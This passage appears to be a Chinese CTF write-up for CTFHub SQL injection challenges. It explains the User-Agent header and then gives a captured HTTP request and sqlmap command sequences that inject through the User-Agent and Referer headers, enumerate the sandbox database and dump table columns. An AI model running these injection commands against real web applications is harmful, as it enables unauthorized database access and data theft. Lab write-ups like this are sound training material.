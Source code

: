 **知识点**
User Agent 中文名为用户代理，简称 UA，它是一个特殊字符串头，使得服务器能够识别客户使用的操作系统及版本、CPU 类型、浏览器及版本、浏览器渲染引擎、浏览器语言、浏览器插件等。

**解题思路**

Burpsuite抓包 将内容保存为1.txt

```
GET / HTTP/1.1
Host: challenge-8d290c248668e8d5.sandbox.ctfhub.com:10080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh,en-US;q=0.9,en;q=0.8,zh-CN;q=0.7
Cookie: UM_distinctid=17848606931db4-0733bf671bf2b6-5771133-190140-17848606932a77
Connection: close
```

```
sqlmap  -r 1.txt --level 3 --dbs
sqlmap  -r 1.txt --level 3 -D sqli --tables
sqlmap  -r 1.txt --level 3 -D sqli -T xxrbzggfbx -columns
sqlmap  -r 1.txt --level 3 -D sqli -T xxrbzggfbx -C dxtajwxled --dump
```
### Refer注入

![](./img/sql6.png),保存为1.txt

```
sqlmap -r 1.txt -p referer --level 3 --dbs

sqlmap -r 1.txt -p referer --level 3 -D sqli --tables

sqlmap -r 1.txt -p referer --level 3 -D sqli -T oezfbbnxsd --columns

sqlmap -r 1.txt -p referer --level 3 -D sqli -T oezfbbnxsd -C glltrzyqqs --dump
```

